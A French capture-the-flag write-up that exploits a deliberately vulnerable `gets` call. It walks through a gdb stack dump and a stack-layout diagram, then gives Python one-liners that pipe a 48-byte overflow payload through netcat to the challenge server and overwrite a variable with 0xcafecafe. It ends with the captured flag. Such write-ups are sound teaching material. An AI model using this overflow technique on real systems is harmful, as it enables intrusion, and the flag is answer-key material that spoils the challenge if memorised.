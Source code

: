 # Write up

La fonction `gets` est dépréciée car elle n'est pas sécuritaire, mais elle existe toujours. Dans la plupart des versions de son `manpage`, on retrouve la phrase "Never use this function.". Cette fonction vulnérable nous permet de dépasser le _buffer_ alloué pour notre nom afin de modifier la valeur d'une variable pour passer la vérification qui nous donnera accès au flag.

En ouvrant le programme dans `gdb`, on peut voir l'état de la _stack_, pour observer le positionnement des variables dans celle-ci. Ceci nous permettra de mieux savoir comment exploiter le dépassement de tampon.

Dans l'exemple suivant, j'ai entré "TESTEST" comme nom. Voici la _stack_ près l'appel à `gets`:

```
gef➤  x/16wx $rsp

0x7fffffffd9c0: 0x54534554      0x00545345      0xf7e29ba5      0x00007fff
0x7fffffffd9d0: 0x00000000      0x00000000      0xffffda10      0x00000004
0x7fffffffd9e0: 0x42060000      0x00000002      0xffffffff      0x00000005
// emplacement de $rbp
```

En utilisant la taille de chacun des types ainsi que les valeurs connues des variables, on peut faire une représentation visuelle de la pile comme ceci:

```
                | 16 bytes                     |
                |  8 bytes     |  8 bytes      |
                |  4   | 4     |  4   |  4     |
                |------------------------------|
                |------------------------------|
0x7fffffffd9c0  | qui                          |
                |------------------------------|
0x7fffffffd9d0  | <padding>           |quand   |
                |------------------------------|
0x7fffffffd9e0  | ou   |comment| quoi |pourquoi|
                |------------------------------|
0x7fffffffd9f0  | <Base de la frame actuelle de pile> ($rbp)
```

Notez que les addresses données dans l'exemple vont varier pour chaque machine et chaque exécution. Ceci n'est pas un problème.

Comme on peut observer dans les instructions suivant l'appel à `gets`, notre objectif est que la variable située à $rbp-4, (`pourquoi`, qui vaut actuellement 5) vale 0xcafecafe.

```
0x5555555551b7 <degoutte+78>    mov    eax, DWORD PTR [rbp-0x4]
0x5555555551ba <degoutte+81>    cmp    eax, 0xcafecafe
```

Il faut donc que l'on envoie un payload de 48 bytes, dont les 4 dernières sont 0xcafecafe. Il existe plusieurs manières d'écrire des bytes `raw` via la ligne de commandes. Nous avons utilisé `python` pour le faire.

```
python2 -c 'print("A"*44 + "\xfe\xca\xfe\xca")' | nc unitedctf.ca 17000

ou bien

python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\xfe\xca\xfe\xca" + b"\n")' | nc localhost 17000
```

Et on obtient le flag FLAG-Buff3r_0verflow3d_nh6qAgs0Yw4 !

